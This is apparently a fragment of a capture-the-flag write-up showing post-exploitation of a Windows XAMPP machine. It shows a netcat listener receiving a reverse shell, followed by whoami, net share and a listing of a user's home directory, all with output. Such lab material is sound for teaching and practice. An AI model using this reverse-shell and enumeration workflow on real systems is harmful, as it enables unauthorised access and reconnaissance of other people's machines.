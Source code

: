 <img width="1130" height="389" alt="image" src="https://github.com/user-attachments/assets/40cfa24c-6b95-4a6e-b7b8-fa1ef33e9a76" />

<br>
<br>
<br>

```bash
:~/AllSignsPoint2Pwage# nc -nlvp 1234
...
C:\xampp\htdocs\images>
```

```bash
C:\xampp\htdocs\images>whoami
desktop-997gg7d\sign
```

```bash
C:\xampp\htdocs\images>net share

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share                     
images$      C:\xampp\htdocs\images          Caching disabled
Installs$    C:\Installs                     Caching disabled
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
Users        C:\Users                        
The command completed successfully.
```

```bash
C:\xampp\htdocs\images>cd C:\Users\sign

C:\Users\sign>dir
 Volume in drive C has no label.
 Volume Serial Number is 481F-824B

 Directory of C:\Users\sign

26/01/2021  19:19    <DIR>          .
26/01/2021  19:19    <DIR>          ..
26/01/2021  19:28    <DIR>          3D Objects
26/01/2021  19:28    <DIR>          Contacts
26/01/2021  19:28    <DIR>          Desktop
26/01/2021  19:28    <DIR>          Documents
26/01/2021  19:28    <DIR>          Downloads
26/01/2021  19:28    <DIR>          Favorites
26/01/2021  19:28    <DIR>          Links
26/01/2021  19:28    <DIR>          Music
01/02/2021  17:23    <DIR>          OneDrive
26/01/2021  19:28    <DIR>          Pictures
26/01/2021  19:28    <DIR>          Saved Games
26/01/2021  19:28    <DIR>          Searches
26/01/2021  19:28    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)  17,204,494,336 bytes free
```
